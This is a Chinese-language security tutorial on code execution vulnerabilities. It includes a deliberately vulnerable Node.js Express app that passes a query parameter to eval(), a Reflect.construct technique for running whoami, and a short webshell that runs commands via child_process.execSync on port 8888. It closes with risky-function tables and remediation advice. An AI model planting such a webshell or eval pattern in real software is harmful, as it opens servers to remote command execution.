


## 简介

代码执行漏洞是指攻击者通过在应用程序中注入恶意代码并成功执行，从而获取系统权限或者窃取敏感信息的一种攻击方式。这种漏洞通常发生在 Web 应用程序中，攻击者可以通过输入恶意代码或者通过上传恶意文件等方式来实现代码执行。攻击者可以利用这种漏洞来执行任意代码，包括命令执行、文件读写、数据库操作等，从而控制整个系统。

## 利用方式

1. 输入恶意代码：攻击者通过输入恶意代码来执行攻击。例如，在一个搜索框中输入一段代码，如果应用程序没有对输入数据进行过滤和验证，就会直接执行这段代码。

2. 上传恶意文件：攻击者通过上传恶意文件来执行攻击。例如，上传一个包含恶意代码的图片文件，如果应用程序没有对上传文件进行检查和过滤，就会将该文件保存到服务器上并执行其中的恶意代码。

执行相关编程语言的任意代码，所以危害取决于可以执行代码的程度。常见的比较严重的攻击有如 **执行系统命令**、**读写文件**、**拒绝服务** 等

## 漏洞复现

在[代码执行demo](/知识库/01.WEB安全/99.其他/04.JavaScript 原型链污染#Demo)中，该部分由node.js编写，其中更是使用eval进行解析字符串以达到代码执行的目的

```javascript
const express = require('express')
const app = new express()

const obj = {
    getMsg: 'hello world',
    getList: getReadMsg()
}

function getReadMsg(){
    return 'test'
}

Object.freeze(obj)

app.get('/', (req, res) => {
    const resp = eval('obj.' + req.query.test)
    res.send(resp)
})

app.listen( 8081,()=>{
    console.log('running on 8081 port!')
})
```


Reflect是JavaScript的一个内置对象，Reflect.construct() 方法的行为有点像 new 操作符 构造函数 ， 相当于运行 new target(...args)
语法如下：

```javascript
Reflect.construct(target, argumentsList[, newTarget])
```


target为Function，argunmentList则为需要传入的方法，再此处就将结果返回回来，在这里就可以看见我们执行了whoami并回显回来了



在未使用return 返回结果的时候，使用该方式发现又可以代码执行，那么再启动一个端口，用于执行命令，就达到了webshell的功能
这里我图方便没有使用nodejs的http模块启动，而是使用express模块执行（需要下载express库)
代码

```javascript
const express_1 = require('express')
const app_1 = new express_1()
app_1.get('/', (req_1, res_1)=>{
    res_1.header('Content-Type','text/html')
    res_1.send(require('child_process').execSync(req_1.query.cmd))
})
app_1.listen('8888')
```




## 相关函数

列举常见编程语言中可能造成代码执行风险的函数，不保证全，仅当参考。

| 编程语言   | 风险函数                                                     |
| :--------- | :----------------------------------------------------------- |
| Python     | `eval()`, `exec()`, `compile()`                              |
| PHP        | `eval()`, `create_function()`, `assert()`                    |
| Java       | `javax.script.ScriptEngine.eval()`,`OGNL表达式`,`SPEL表达式` |
| JavaScript | `eval()`                                                     |

## 修复建议

1. 输入验证和过滤
   1. 对于用户输入的数据，始终进行有效的验证和过滤，确保只接受预期的输入。
   2. 使用白名单验证，只允许特定的字符或格式通过验证，拒绝一切非法或不受信任的输入。
2. 避免动态执行代码
   1. 避免直接使用函数（如 `eval()`、`exec()`、`System.exec()` 等）执行动态生成的代码。
   2. 尽量使用更安全的替代方案，如解析器、解释器或特定的API。

